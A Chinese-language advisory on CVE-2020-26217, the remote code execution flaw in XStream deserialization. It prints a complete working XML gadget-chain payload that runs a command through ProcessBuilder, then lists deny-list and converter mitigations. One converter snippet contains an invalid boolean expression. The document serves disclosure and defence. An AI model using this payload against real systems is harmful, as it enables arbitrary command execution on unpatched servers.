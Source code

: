 # CVE-2020-26217

## 脆弱性

CVE-2020-26217: XStream 可以用于远程代码执行。

## 影响版本

如果使用开箱即用的版本，那么在 1.4.13 之前（包括 1.4.13）的所有版本都会受到影响。按照建议使用白名单设置 XStream 安全框架的用户不会受到影响。

## 描述

在解组时处理的流包含类型信息，以重新创建以前写入的对象。因此，XStream 根据这些类型信息创建新的实例。攻击者可以操作已处理的输入流并替换或注入对象，这些对象可以执行任意 shell 命令。

此问题是 CVE-2013-7285 的变体，这次使用了 Java 运行时环境的不同类集，这些类都不是 XStream 默认黑名单的一部分。同样的问题已经在 CVE-2017-9805 中被报道为 struts 的 XStream 插件，但是 XStream 项目从未被告知。

## 重现步骤

创建一个简单的 HashMap，并使用 XStream 将其编组为 XML。用以下代码片段替换 XML，并再次用 XStream 反编组它:

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

```java
XStream xstream = new XStream();
xstream.fromXML(xml);
```

一旦 XML 被反编组，有效负载就会被执行。

在一个类似但更简单的场景中，将 `javax.imageio.ImageIO.ContainsFilter` 注入到 `java.util.Iterator` 实例中，并在调用迭代器的下一个方法时立即执行有效负载。

注意，本例使用 XML，但攻击可以针对任何支持的格式执行。例如 JSON。

## 影响

该漏洞可能允许远程攻击者仅通过操纵已处理的输入流来运行任意 shell 命令。

## 解决方案

按照建议，使用 XStream 的安全框架为允许的类型实现一个白名单。

XStream 1.4.13 的用户如果想使用 XStream 默认黑名单，只需在 XStream 的设置代码中添加两行:

```java
xstream.denyTypes(new String[]{ "javax.imageio.ImageIO$ContainsFilter" });
xstream.denyTypes(new Class[]{ java.lang.ProcessBuilder.class });
```

XStream 1.4.12 到 1.4.7 的用户如果想使用带有黑名单的 XStream，必须从头开始设置这样一个列表，并至少拒绝以下类型: `javax.imageio.ImageIO$ContainsFilter`，`java.beans.EventHandler`，`java.lang.ProcessBuilder`，`java.lang.Void`和 `void`。

```java
xstream.denyTypes(new String[]{ "javax.imageio.ImageIO$ContainsFilter" });
xstream.denyTypes(new Class[]{ java.lang.ProcessBuilder.class, java.beans.EventHandler.class, java.lang.ProcessBuilder.class, java.lang.Void.class, void.class });
```

XStream 1.4.6 或更低版本的用户可以注册自己的转换器，以防止对当前已知的关键 Java 运行时类型进行解组。它实际上是 CVE-2013-7285 解决方案的更新版本:

```java
xstream.registerConverter(new Converter() {
  public boolean canConvert(Class type) {
    return type != null && (type == java.beans.EventHandler.class || type == java.lang.ProcessBuilder.class || type == java.lang.Void.class || void.class || type.getName().equals("javax.imageio.ImageIO$ContainsFilter") || Proxy.isProxy(type));
  }

  public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    throw new ConversionException("Unsupported type due to security reasons.");
  }

  public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
    throw new ConversionException("Unsupported type due to security reasons.");
  }
}, XStream.PRIORITY_VERY_HIGH);
```

## 调用堆栈

从 poc 中可以看出，最后一步会运行到 `java.lang.ProcessBuilder#start` 方法，所以直接在这里下断点


